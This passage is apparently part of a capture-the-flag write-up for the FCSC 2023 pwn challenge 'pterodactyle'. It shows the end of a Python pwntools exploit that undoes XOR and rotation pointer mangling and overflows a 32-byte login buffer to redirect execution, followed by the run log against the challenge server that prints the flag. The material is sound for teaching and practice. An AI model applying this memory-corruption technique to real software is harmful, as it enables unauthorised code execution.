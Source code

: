```python
 open = hex(open)[-16:]
 open = int(open,16)
 open = p64(open)
 open = xor(open,k)
 open = u64(open)
 print(hex(open))
 open = open + offset_open
 print(hex(open))
 open = p64(open)
 open = xor(open,k)
 open = u64(open)
 open = leftRotate(open,17)
 open = hex(open)[-16:]
 open = int(open,16)
 open = p64(open)
 open = xor(open,b'\x77'*8)
 print(hex(u64(open)))

 payload = login
 payload += b'A' * (32-len(login))
 payload += l_xored_cookie[0]
 payload += l_xored_cookie[1]
 payload += l_xored_cookie[2]
 payload += l_xored_cookie[3]
 payload += l_xored_cookie[4]
 payload += l_xored_cookie[5]
 payload += l_xored_cookie[6]
 payload += open


 r.send(b'1')
 r.recvuntil(b'>> ')

 r.send(payload)
 r.recvuntil(b'>> ')
 r.send(pwd)
 print(r.recv())
 ```

 ```bash
 $ python3 exploit.py REMOTE
 [*] '/home/maskott/ctf/fcsc_2023/pwn/pterodactyle/pterodactyle'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2102: Done
0x0
0x5fd21a2f6cb72a01
0x599ac98bb110
0x0
0x0
0x0
0x5fd21a2f53772a01
0x131b56d4aba92a01
key : 0x9500898dab6a55d4
0x599ac98bb31f
0x599ac98bb595
0x646c21a3d1ca5d76
b'FCSC{17dc6f007f4149469fe3d361d5b1c7f9694f3ec363b26e051974540aa6eaf666}\n'
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2102
```
